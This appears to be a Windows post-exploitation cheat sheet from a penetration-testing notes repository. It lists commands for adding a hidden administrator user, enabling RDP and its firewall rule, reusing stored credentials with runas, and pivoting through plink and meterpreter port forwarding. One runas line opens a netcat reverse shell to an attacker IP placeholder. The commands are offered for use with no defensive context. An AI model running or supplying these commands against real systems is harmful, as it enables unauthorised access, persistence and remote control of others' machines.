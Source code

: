 # Useful Commands

### Add user
```
net user <username> <password> /add # Add user
net localgroup administrators <username> /add # Add user to Administrators group
```
### Enable RDP
```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```
Enable RDP rule
```
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
```
Add user to RDP Group
```
net localgroup "Remote Desktop Users" "<username>" /add
```

### Runas
```
cmdkey /list # list stored credentials
runas /savedcred /user:WORKGROUP\Administrator cmd.exe # Use stored credentials
runas /env /noprofile /user:<username> <password> "c:\nc.exe -nc <ATTACKER-IP> <ATTACKER-PORT> -e cmd.exe" # Use with given credentials
```

### Port Forwarding

over SSH with plink.exe
```
upload plink.exe to target machine
run SSH service on atackker machine
plink.exe -l <USERNAME> -pw <PASSWORD> <TARGET-IP> -R <TARGET-PORT>:127.0.0.1:<LOCAL-PORT> # on target machine

For example:
plink.exe -l root -pw password 192.168.1.25 -R 80:127.0.0.1:80
```

with meterpreter
```
portfwd add –l <PORT> –p <PORT> –r <TARGET-IP>
portfwd list # list of currently listening and forwarded ports

option:
-l option is the local port that will be listening and forwarded to our target
-p option is the destination port on our targeting host
```
